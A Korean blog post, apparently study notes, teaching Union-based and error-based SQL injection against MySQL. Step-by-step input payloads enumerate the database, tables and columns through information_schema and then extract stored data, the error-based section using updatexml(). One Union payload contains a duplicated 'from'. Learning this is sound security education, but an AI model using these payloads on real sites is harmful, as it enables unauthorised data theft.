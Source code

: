 ```yaml
---
title: "Union SQLi & Error Based SQLi 과정 정리"
excerpt: "sql injection 보다 쉽게 할 수 있는 과정을 정리하였다."
tags:
    - Mysql
    - DB
    - sql injection
last_modified_at: 2023-04-30T09:13:00-05:00
---
```

## 환경
- MYSQL 서버

<br>

## Union SQLi

### 조건
- 질의문 결과가 화면에 보여야 한다.

### 동작 유형
- 게시판 ( 글이 화면에 나온다. )
- 회원정보 ( 마이페이지 )
- 주소검색
- 검색 페이지

### 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명 like '%----%' ...`
2. **SQL Injection** 취약점 존재하는지 확인하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' and '1%'='1%' ...`
	- 입력 = `test%' and '1%'='1`
3. 컬럼수 찾기.
	- `order by` 를 이용하여 1씩 증가 시키면서 컬럼수를 찾아준다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' order by 1 -- %' ...`
	- 입력 = `test%' order by 1 -- `
4. data 출력 위치 파악하기.
	- 위에서 찾은 컬럼수를 이용하여 data 출력 위치 파악하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1','2','3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1','2','3','4' from dual -- `
5. database 이름 출력하기.
	- 위에서 파악한 출력위치를 이용하여 DB 이름을 알아보자.
	- `select database() from dual` 명령을 이용하면 현재 DB 명이 나온다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',database(),'3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1',database(),'3','4' from dual -- `
6. table 이름 출력하기.
	- 위에서 파악한 DB이름을 이용하여 존재하는 테이블명을 알아보자.
	- `select table_name from information_schema.tables where table_schema='DB명'` 명령을 이용하면 테이블명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- %' ...`
	- 입력 = `test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- `
7. column 이름 출력하기.
	- 위에서 파악한 table 이름을 이용하여 table의 컬럼명을 알아보자.
	- `select column_name from information_schema.columns where table_name='테이블명'` 명령을 이용하면 해당 table의 컬럼명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- %' ...
	- 입력 = `test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- `
8. 정보 빼오기.
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column명,'3','4' from table명 -- %' ...`
	- 입력 = `test%' union select '1',column명,'3','4' from table명 -- `
<br><br>




<br><br>

## Error Based SQLi
- 논리 에러를 의도적으로 일으켜 데이터를 추출하는 공격이다.

### 조건
- Error 메세지가 화면에 보여야한다.

### 동작 유형
- 로그인 페이지
- 아이디 중복 체크

### SQL 논리 에러를 발생시킬 수 있는 함수
- updatexml
- ExtractValue

### 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명='----' ...`
2. 오류 발생 확인하기. ( db 에러인지 확인하기 )
	- 입력 = `' asd`
	- **syntax error 발생(문법 에러)** 가 발생하는 것을 확인이 가능한지 본다.
3. Error Based SQL Injection Function 동작하는지 확인하기.
	- Syntax error (문법에러) : 문법 틀리면 안됨. 컴파일 할 때 잡아낸다.
	- 논리에러 : 실행이된다.
	- 즉 우리는 논리에러를 발생시켜야 한다.
	- **updatexml** 함수를 이용하자!
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1`
	- `XPATH syntax error: ':test'` 에러를 볼 수 있다.
	- `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(SQL)), null) and '1'='1' ...` test 대신 질의문을 넣어주면 된다.
4. Database 이름 출력하기.
	- `select database() from dual`  로 DB 명 찾기
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1`
5. table 이름 출력하기.
	- `select table_name from information_schema.tables where table_schema='DB명' limit 0,1` 로 table 명 찾기.
	- 오류는 하나의 데이터만 보여줄 수 있다. 따라서 출력을 1개로 제한하였다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1' ...` 
	- 입력 = `1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1`
	- `limit` 를 조절하면서 원하는 테이블명을 찾는다.
6. column 이름 출력하기.
	- `select column_name from information_schema.columns where table_name='테이블명' limit 0,1` 로 table에 해당하는 column명 찾기.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1`
7. 정보 빼오기
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명 limit 0,1` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1`